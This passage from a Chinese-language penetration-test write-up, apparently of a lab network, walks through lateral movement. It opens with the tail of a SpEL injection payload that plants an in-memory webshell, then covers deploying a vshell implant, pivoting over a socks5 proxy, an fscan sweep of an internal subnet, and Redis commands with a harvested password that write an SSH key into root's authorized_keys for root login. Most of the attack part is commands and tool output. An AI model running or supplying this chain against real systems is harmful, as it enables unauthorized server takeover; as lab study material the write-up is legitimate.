ACgACAAAAFwAKABgAAwC0AAAAAgC1AScAAAASAAIAyQAPASYGCQFyAXUBcwAZAPkAAAAMAAEA+gADAPsA/AD9'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject(@requestMappingHandlerMapping,'/config')}"
    }
        }],
      "uri": "http://example.com"
}
```

同样的步骤



成功连接



root用户的权限



查看IP，还存在另一张网卡：192.168.88.60



因为这个机器在内网，所以直接拿正向的shell

用vshell生成一个正向的客户端，监听80端口



通过webshell，上传到机器，给执行权限并执行



添加正向连接，注意添加代理：socks5://192.168.28.4:8899



内网1主机成功上线



接着扫描另一网段



上传fscan进行扫描

```http
root@neiwang1:/tmp# ./fscan -h 192.168.88.0/24 -hn 192.168.88.1,192.168.88.60

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 2.0.0
[*] 扫描类型: all, 目标端口: 21,22,80,81,135,139,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017,80,81,82,83,84,85,86,87,88,89,90,91,92,98,99,443,800,801,808,880,888,889,1000,1010,1080,1081,1082,1099,1118,1888,2008,2020,2100,2375,2379,3000,3008,3128,3505,5555,6080,6648,6868,7000,7001,7002,7003,7004,7005,7007,7008,7070,7071,7074,7078,7080,7088,7200,7680,7687,7688,7777,7890,8000,8001,8002,8003,8004,8006,8008,8009,8010,8011,8012,8016,8018,8020,8028,8030,8038,8042,8044,8046,8048,8053,8060,8069,8070,8080,8081,8082,8083,8084,8085,8086,8087,8088,8089,8090,8091,8092,8093,8094,8095,8096,8097,8098,8099,8100,8101,8108,8118,8161,8172,8180,8181,8200,8222,8244,8258,8280,8288,8300,8360,8443,8448,8484,8800,8834,8838,8848,8858,8868,8879,8880,8881,8888,8899,8983,8989,9000,9001,9002,9008,9010,9043,9060,9080,9081,9082,9083,9084,9085,9086,9087,9088,9089,9090,9091,9092,9093,9094,9095,9096,9097,9098,9099,9100,9200,9443,9448,9800,9981,9986,9988,9998,9999,10000,10001,10002,10004,10008,10010,10250,12018,12443,14000,16080,18000,18001,18002,18004,18008,18080,18082,18088,18090,18098,19001,20000,20720,21000,21501,21502,28018,20880
[*] 开始信息扫描...
[*] CIDR范围: 192.168.88.0-192.168.88.255
[*] 已生成IP范围: 192.168.88.0 - 192.168.88.255
[*] 已解析CIDR 192.168.88.0/24 -> IP范围 192.168.88.0-192.168.88.255
[*] 已排除指定主机: 2 个
[*] 最终有效主机数量: 254
[+] 目标 192.168.88.70   存活 (ICMP)
[+] ICMP存活主机数量: 1
[*] 共解析 218 个有效端口
[+] 端口开放 192.168.88.70:6379
[+] 端口开放 192.168.88.70:22
[+] 存活端口数量: 2
```

IP：`192.168.88.70`，存活三个端口，`22,6379`

6379是redis的端口，在上面我们通过nacos拿到了redis的密码，所以优先尝试redis

通过内网1搭建隧道



为proxychains4配置代理

```
socks5 192.168.28.4 8900
```

利用之前的密码，成功登录redis服务



这里就可以进行写ssh公钥（22端口是开放的）

**方法一**：手动写SSH公钥

将公钥复制出来

```
(echo -e "\n";cat id_rsa.pub;echo -e "\n")>key.txt
```



将key.txt的内容设置给一个键值

```
cat key.txt| redis-cli -h 192.168.88.70 -a "nbsg@123456" -x set pub
```



连接到redis

```
proxychains4 redis-cli -h 192.168.88.70 -a "nbsg@123456"
```

```
192.168.88.70:6379> config set dir '/root/.ssh'
OK
192.168.88.70:6379> config set dbfilename authorized_keys
OK
192.168.88.70:6379> save
OK
```



```
proxychains4 ssh root@192.168.88.70
```





方法二：自动化写入SSH公钥

使用mdut工具



打开后，替换公钥



写入成功



然后上线一下vshell





最后拿到三台主机的权限



